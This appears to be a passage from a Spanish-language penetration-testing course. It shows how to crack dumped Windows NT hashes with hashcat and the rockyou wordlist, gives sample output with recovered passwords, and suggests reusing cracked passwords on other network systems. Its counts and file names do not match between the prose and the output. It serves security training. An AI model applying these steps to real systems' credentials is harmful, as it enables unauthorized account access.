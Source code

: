 Ahora que los NT hashes están en nuestro archivo de texto (`hashestocrack.txt`), podemos usar Hashcat para crackearlos.

### Ejecutando Hashcat contra NT Hashes

Hashcat tiene muchos modos diferentes que podemos usar. Seleccionar un modo depende en gran medida del tipo de ataque y el tipo de hash que queremos crackear. Cubrir cada modo está más allá del alcance de este módulo. Nos enfocaremos en usar `-m` para seleccionar el tipo de hash 1000 para crackear nuestros NT hashes (también conocidos como hashes basados en NTLM). Podemos consultar la página wiki de Hashcat o la página de manual para ver los tipos de hash admitidos y su número asociado. Utilizaremos la infame lista de palabras `rockyou.txt` mencionada en la sección de Almacenamiento de Credenciales de este módulo.

```bash
sherlock28@htb[/htb]$ sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt

hashcat (v6.1.1) starting...

<SNIP>

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

f7eb9c06fafaa23c4bcf22ba6781c1e2:dragon          
6f8c3f4d3869a10f3b4f0522f537fd33:iloveme         
184ecdda8cf1dd238d438c4aea4d560d:adrian          
31d6cfe0d16ae931b73c59d7e0c089c0:                 

Session..........: hashcat
Status...........: Cracked
Hash.Name........: NTLM
Hash.Target......: dumpedhashes.txt
Time.Started.....: Tue Dec 14 14:16:56 2021 (0 secs)
Time.Estimated...: Tue Dec 14 14:16:56 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    14284 H/s (0.63ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 5/5 (100.00%) Digests
Progress.........: 8192/14344385 (0.06%)
Rejected.........: 0/8192 (0.00%)
Restore.Point....: 4096/14344385 (0.03%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: newzealand -> whitetiger

Started: Tue Dec 14 14:16:50 2021
Stopped: Tue Dec 14 14:16:58 2021
```

Podemos ver en la salida que Hashcat utilizó un tipo de ataque llamado ataque por diccionario para adivinar rápidamente las contraseñas utilizando una lista de contraseñas conocidas (`rockyou.txt`) y tuvo éxito en crackear 3 de los hashes. Tener las contraseñas podría ser útil para nosotros de muchas maneras. Podríamos intentar usar las contraseñas que crackeamos para acceder a otros sistemas en la red. Es muy común que las personas reutilicen contraseñas en diferentes cuentas de trabajo y personales. Conociendo esta técnica, que cubrimos, puede ser útil en compromisos. Nos beneficiará usar esto cada vez que nos encontremos con un sistema Windows vulnerable y obtengamos derechos de administrador para volcar la base de datos SAM.
